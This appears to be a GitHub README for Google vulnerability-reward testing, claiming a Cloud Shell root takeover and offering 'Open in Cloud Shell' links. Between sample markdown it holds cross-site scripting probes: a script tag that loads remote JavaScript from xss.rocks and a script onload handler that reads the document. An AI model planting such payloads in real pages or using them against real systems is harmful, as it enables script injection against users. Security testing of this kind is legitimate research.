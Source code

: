 # Google VRP testing  
Google cloudshell instance take over (as root)




[![Launch in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)][1]

[1]: https://console.cloud.google.com/?cloudshell_git_repo=https%3A%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta&cloudshell_tutorial=hey.md


---


<script async type="text/javascript" src="{{ js }}"></script>

<dl>
  <dt>Definition list</dt>
  <dd>Is something people use sometimes.</dd>
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>

  <dt>Markdown in HTML</dt>
  <dd>Does *not* work **very** well. Use HTML <em>tags</em>.</dd>
</dl>

---

 





<details>
  <summary>Click me</summary>
  
  ### Heading
  1. Foo
  2. Bar
     * Baz
     * Qux

  ### Some Javascript
  ```js
  function logSomething(something) {
    console.log('Something', something);
  }
  ```
</details>


### Test

<script onload="{ setTimeout(function(){ altert(document) console.log(document) },5000) }"> 

 [![Open in Cloud Shell before](https://gstatic.com/cloudssh/images/open-btn.svg)](https://ssh.cloud.google.com/cloudshell/editor?page=editor&cloudshell_git_repo=https:%2F%2Fgithub.com%2Fmagnetic-ferret%2Fta.git&cloudshell_open_in_editor=README.md)
